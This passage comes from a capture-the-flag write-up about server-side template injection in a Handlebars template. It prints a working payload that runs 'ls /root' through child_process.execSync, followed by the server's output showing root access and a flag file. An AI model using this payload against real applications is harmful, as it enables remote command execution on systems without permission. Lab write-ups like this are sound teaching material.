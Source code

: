 Payload number five is a direct evolution of payload number four. The main difference is in the action that is performed after accessing the ```child_process``` module.

In payload number four, we simply loaded the ```child_process``` module, which laid the groundwork for executing commands. Payload number five takes this a step further by actually using the ```execSync``` method from the ```child_process``` module to run the ```whoami``` command on the system. This is significant because it demonstrates the ability to execute commands synchronously and retrieve their output, which is a crucial step in exploitation.

Back to the write-up again: *We will need to URL encode the above payload once again. Copy the payload in the bottom pane and paste it into the ```email=``` field once more, replacing the previous. Finally, click on the "Send" button.*

*In the response we see that the output of the ```whoami``` command is ```root```. This means that we have successfully run system commands on the box and also that the web server is running in the context of the root user. We can now proceed one of two ways. We can either get a Reverse Shell on the affected system, or directly grab the flag. In this writeup we will focus on the latter.*

*We know that the flag is most probably located in ```/root``` but we can also verify this. Let's change our command from ```whoami``` to ```ls /root``` to list all files and folders in the root directory:*

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('ls /root');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

*URL encode the payload and send it as shown before. In the response we see the following:*

```
We will contact you at: e
2
[object Object]
function Function() { [native code] }
2
[object Object]
Backend
flag.txt
snap
```

